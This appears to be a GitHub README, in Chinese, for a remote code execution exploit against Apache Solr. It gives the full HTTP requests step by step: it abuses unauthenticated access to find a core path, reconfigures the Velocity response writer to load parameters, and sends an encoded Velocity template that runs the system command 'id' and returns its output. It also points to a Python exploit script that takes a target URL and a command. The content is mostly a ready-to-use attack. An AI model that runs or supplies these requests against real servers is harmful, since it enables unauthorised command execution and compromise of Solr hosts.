 # Apache Solr rce

### 复现过程

step1:
通过Solr未授权访问，访问Core Admin，获取Path
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031164421.png)

step2:
修改配置
```
POST /solr/(第一步获取到的Path)/config HTTP/1.1
Host: ip:8983
User-Agent: xxx
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165408.png)

step3:
执行命令
```
GET /solr/(第一步获取到的Path)/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: xxx:8983
User-Agent: xxx
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165755.png)

### python exp

使用方法：
python solr_rce.py url "command"
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031170416.png)

### 参考

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt
https://mp.weixin.qq.com/s/_mwnPuvqBP945D3g-j8Hrw
